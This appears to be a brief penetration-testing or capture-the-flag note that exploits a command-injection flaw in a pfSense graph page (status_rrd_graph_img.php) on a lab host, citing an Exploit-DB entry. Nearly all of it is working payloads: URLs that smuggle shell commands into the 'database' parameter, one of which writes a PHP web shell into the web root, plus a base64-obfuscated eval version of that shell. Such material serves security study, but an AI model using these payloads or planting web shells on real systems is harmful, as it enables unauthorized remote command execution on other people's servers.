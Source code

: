 - https://www.exploit-db.com/exploits/43560

```
https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd ..;cd ..;cd ..;cd ..;cd ..;cd ..;cd usr;cd local; cd www;echo  'test' > abcd.txt
```

```
https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd ..;cd ..;cd ..;cd ..;cd ..;cd ..;cd usr;cd local; cd www;echo  '<?php echo system($_GET["cmd"]); ?>' > abcd.php
```

Can also do:
```
php eval(base64_decode('ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg'));?>
```
```
echo system($_GET['cmd']);
```
